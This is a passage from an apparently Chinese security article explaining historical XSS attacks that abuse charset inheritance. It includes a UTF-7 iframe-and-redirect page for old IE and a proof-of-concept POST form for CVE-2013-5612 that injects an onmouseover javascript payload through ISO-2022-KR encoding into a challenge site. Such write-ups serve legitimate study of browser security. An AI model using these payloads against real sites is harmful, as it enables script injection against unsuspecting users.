 ```
// utf7exploit.html
<html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-7">
</head>
<body>
<iframe width=500 height=600 src="redirect.php"></iframe>
</body>
</html>
// redirect.php
<?php
header("Location: http://path.to/shoutbox.php");
?>

```

包含一个同域的文件,并在那个文件里通过 header(Location:somedomain)来进行跳转进而绕过不同域 iframe 不能继承字符集的限制。(`>.<`那是个多么美好的年代啊)。不过遗憾的是后来这个漏洞也被补了。如果你想亲自体验一吧。可能需要你在winxp sp2+ IE7 的环境下进行复现。

0x04 不是所有的跨域字符集继承都得用 iframe
---------------------------

* * *

在我们对跨域的字符集继承问题的严重性有了一定的了解之后。让我们再看看日本的猥琐流是怎么玩的吧。这是 MK 在完成 ZDResearch 出的一个 XSS 挑战时所用到的一个漏洞。(CVE2013-5612)

在 Firefox26 之前的版本下,如果对没有进行 charset 设定的页面通过 POST 发送请求,那么即使是在不同域的情况下也会继承发送页面的 charset 导致可以被 XSS 攻击所利用。换句话来说,我们可以从任意页面发送 post 请求,来对没有设置 charset 的页面,进行 charset 的任意设定。

下面是 ZDResearch 的 XSS 挑战(没有设置 charset): ￼￼￼[https://zdresearch.com/challenges/xss1/](https://zdresearch.com/challenges/xss1/)

这是 MK 构造的 POST 页面:

[http://l0.cm/zdresearch_xss_challenge.html](http://l0.cm/zdresearch_xss_challenge.html)

具体的 POC 代码如下:

```
<meta charset="iso-2022-kr">
<form action="https://zdresearch.com/challenges/xss1/" method="post">
<input name="XSS" value="<h1 a=&#x0E;>&#x0F;onmouseover=location='jav\x41script\x3Aalert\x28&quot;MK&quot;\x29' >xxx">
<input type="submit" value="go">
</form>

```

当我们通过 charset 为 iso-2022-kr 的页面向 https://zdresearch.com/challenges/xss1/发送 POST 请求时,目标页面会继承我们的 charset。由于字符集[ISO-2022-KR]中会把以`&#x0E;`开头`&#x0F;`结尾的一串字符看作是 2 bytes 也就是一个字符导致最终成功的 插入 onmouseover 到目标页面当中。两个字......漂亮!

0x05 霸道流(MS13-037)
------------------
